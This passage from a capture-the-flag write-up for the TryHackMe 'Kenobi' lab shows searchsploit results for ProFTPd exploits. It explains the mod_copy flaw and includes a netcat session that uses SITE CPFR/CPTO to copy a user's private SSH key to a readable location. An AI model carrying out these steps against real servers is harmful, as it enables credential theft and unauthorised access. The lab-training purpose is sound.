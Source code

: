```
ProFTPd 1.3.0/1.3.0a - 'mod_ctrls' exec-shield Local Overflow                                                                                                | linux/local/3730.txt
ProFTPd 1.3.0a - 'mod_ctrls' 'support' Local Buffer Overflow (PoC)                                                                                           | linux/dos/2928.py
ProFTPd 1.3.2 rc3 < 1.3.3b (FreeBSD) - Telnet IAC Buffer Overflow (Metasploit)                                                                               | linux/remote/16878.rb
ProFTPd 1.3.2 rc3 < 1.3.3b (Linux) - Telnet IAC Buffer Overflow (Metasploit)                                                                                 | linux/remote/16851.rb
ProFTPd 1.3.3c - Compromised Source Backdoor Remote Code Execution                                                                                           | linux/remote/15662.txt
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                                                                                                    | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                                                                                                          | linux/remote/36803.py
ProFTPd 1.3.5 - File Copy                                                                                                                                    | linux/remote/36742.txt
ProFTPd 1.x - 'mod_tls' Remote Buffer Overflow                                                                                                               | linux/remote/4312.c
ProFTPd IAC 1.3.x - Remote Command Execution                                                                                                                 | linux/remote/15449.pl
ProFTPd-1.3.3c - Backdoor Command Execution (Metasploit)                                                                                                     | linux/remote/16921.rb
WU-FTPD 2.4.2 / SCO Open Server 5.0.5 / ProFTPd 1.2 pre1 - 'realpath' Remote Buffer Overflow (1)                                                             | linux/remote/19086.c
WU-FTPD 2.4.2 / SCO Open Server 5.0.5 / ProFTPd 1.2 pre1 - 'realpath' Remote Buffer Overflow (2)                                                             | linux/remote/19087.c
WU-FTPD 2.4/2.5/2.6 / Trolltech ftpd 1.2 / ProFTPd 1.2 / BeroFTPD 1.3.4 FTP - glob Expansion                                                                 | linux/remote/20690.sh
------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

`3`

3. You should have found an exploit from ProFtpd's mod_copy module.

The mod_copy module implements SITE CPFR and SITE CPTO commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user.

```
bibo318@parrot:~/CTFs/tryhackme/Kenobi$ nc 10.10.222.46 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.222.46]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```
